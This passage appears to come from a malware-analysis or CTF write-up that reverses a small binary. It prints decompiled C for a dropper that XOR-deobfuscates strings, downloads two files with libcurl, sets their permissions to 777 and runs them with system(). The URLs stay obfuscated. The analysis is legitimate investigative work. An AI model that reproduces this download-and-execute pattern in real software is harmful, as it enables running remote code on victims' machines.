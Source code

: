 ```C
}
```

We find some variable declarations, a function named `FUN_00400c04` and then two pars of code that both use `access()` to check if a file is available and finally, a call to `system()` with arguments the variables that were declared.

After some basic reversing, we find that `FUN_00400c04` is just an `XOR` function that deobfuscates the strings and `FUN_00400b20` is just a wrapper around some `libcurl` calls to download the file and save it. Afterward, it changes permissions to `777` and executes it:

```c
    memcpy(url0,&DAT_00400f74,0x3f);
    memcpy(url1,&DAT_00400fb4,0x3c);
    xor(dest_file0);
    xor(dest_file1);
    xor(url0);
    xor(url1);
    iVar1 = access(dest_file0,0);
    if (iVar1 == -1) {
        curl_get(url0,dest_file0);
        chmod(dest_file0,0777);
    }
    iVar1 = access(dest_file1,0);
    if (iVar1 == -1) {
        curl_get(url1,dest_file1);
        chmod(dest_file1,0777);
    }
    system(dest_file1);
    system(dest_file0);
    return 0;
```

We need to deobfuscate the strings to find the URLs so that we can download the files and examine them!

![](./assets/xor.png)

